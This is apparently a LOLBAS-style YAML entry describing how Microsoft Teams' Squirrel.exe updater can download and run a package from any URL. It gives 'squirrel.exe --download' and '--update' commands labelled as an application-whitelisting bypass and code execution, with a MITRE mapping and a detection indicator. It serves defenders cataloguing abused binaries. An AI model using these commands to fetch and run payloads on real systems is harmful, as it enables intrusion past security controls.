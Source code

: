```yaml
---
Name: Squirrel.exe
Description: Binary to update the existing installed Nuget/squirrel package. Part of Microsoft Teams installation.
Author: 'Reegun J (OCBC Bank) - @reegun21'
Created: '2019-06-26'
Commands:
  - Command: squirrel.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download binary
    Category: Download
    Privileges: User
    MitreID: T1218 
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --update [url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --update [url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
Full_Path:
  - Path: '%localappdata%\Microsoft\Teams\current\Squirrel.exe'
Code_Sample: 
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection: 
  - IOC: Update.exe spawned an unknown process
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
  - Link: https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
Acknowledgement:
  - Person: Reegun J (OCBC Bank)
    Handle: '@reegun21'
  - Person: Adam
    Handle: '@Hexacorn'
---
```

